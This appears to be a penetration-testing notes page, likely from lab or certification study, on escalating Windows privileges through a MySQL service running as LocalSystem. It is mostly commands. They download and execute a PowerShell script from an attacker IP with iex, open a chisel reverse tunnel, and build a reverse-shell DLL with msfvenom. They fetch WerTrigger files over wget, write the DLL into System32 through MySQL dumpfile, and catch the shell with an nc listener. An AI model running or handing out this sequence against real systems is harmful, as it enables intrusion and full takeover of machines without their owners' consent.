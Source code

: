 # Write permission

### Local Enumeration

{% code overflow="wrap" %}
```bash
PS> iex (new-Object Net.WebClient).DownloadString('http://192.168.45.183/privesc/PrivescCheck.ps1');Invoke-PrivescCheck
```
{% endcode %}



<figure><img src="../../.gitbook/assets/image (154).png" alt=""><figcaption></figcaption></figure>

With the MySQL service under L**ocalSystem**, you can 'write' a file to any location via MySQL!&#x20;

### Escalation

{% code overflow="wrap" %}
```bash
PS> netstat -nat  # Check SQL (3306 by default) is running  
PS> cmd /c sc qc Mysql # Validating if Mysql is running under LocalSystem 

# If this is the local
Kali> chisel server --reverse -p 9000
PS> .\cl64.exe client 192.168.45.183:1234 R:3306:127.0.0.1:3306 

# WerTrigger 
# https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#eop---privileged-file-write
# https://github.com/sailay1996/WerTrigger 

git clone https://github.com/sailay1996/WerTrigger 

# Use the shell below for phoneinfo.dll 
msfvenom --platform windows --arch x64 -p windows/x64/shell_reverse_tcp LHOST=192.168.45.183  LPORT=1234 -f dll -o phoneinfo.dll

# Transfer files 
# Place Report.wer and WerTrigger.exe at the same directory
PS> wget http://192.168.45.183/WerTrigger.exe -o WerTrigger.exe
PS> wget http://192.168.45.183/Report.wer -o Report.wer
PS> wget http://192.168.45.183/phoneinfo.dll -o phoneinfo.dll


# Connect to the MySQL from Kali
Kali> mysql -h 127.0.0.1 -u root -p   # with password or maybe not required 

# Database connection
# MariaDB [(none)]> select load_file('C:\\\\Users\\Administrator\\Desktop\\proof.txt');

MariaDB [(none)]> select load_file('C:\\\\xampp\\htdocs\\phoneinfo.dll') into dumpfile 'C:\\\\Windows\\system32\\phoneinfo.dll';

PS> dir \windows\system32\phoneinfo.dll
Kali> rlwrap nc -nlvp 1234 
PS> .\WerTrigger.exe
```
{% endcode %}
